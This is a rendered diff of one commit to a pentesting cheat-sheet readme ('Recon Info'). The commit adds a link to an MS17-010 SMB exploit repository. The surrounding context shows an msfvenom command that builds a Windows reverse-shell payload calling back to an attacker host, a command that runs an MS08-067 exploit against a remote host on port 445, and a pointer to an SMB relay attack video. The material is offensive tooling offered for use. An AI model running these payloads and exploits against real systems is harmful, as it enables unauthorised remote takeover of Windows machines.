

Before and after one commit to xephora/Tech-Scripts-n-Goodies, a Markdown page: SoLazyScriptz/Recon Info/readme.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/SoLazyScriptz/Recon Info/readme.md
+++ b/SoLazyScriptz/Recon Info/readme.md
@@ -206,6 +206,9 @@ msfvenom -p windows/shell_reverse_tcp LHOST=<rhost> LPORT=<rport> EXITFUNC=threa
 After inserting your shellcode payload then you can execute your script. You may need to change your OS target number depending on the operating system.
 python ms08_067_2018.py <rhost> 1 445
 ```
+
+### more smb exploits
+https://github.com/worawit/MS17-010/tree/master
 
 ### [SMB Relay attack]
 https://www.youtube.com/watch?v=ctLVMi1_zBc&feature=emb_title
````
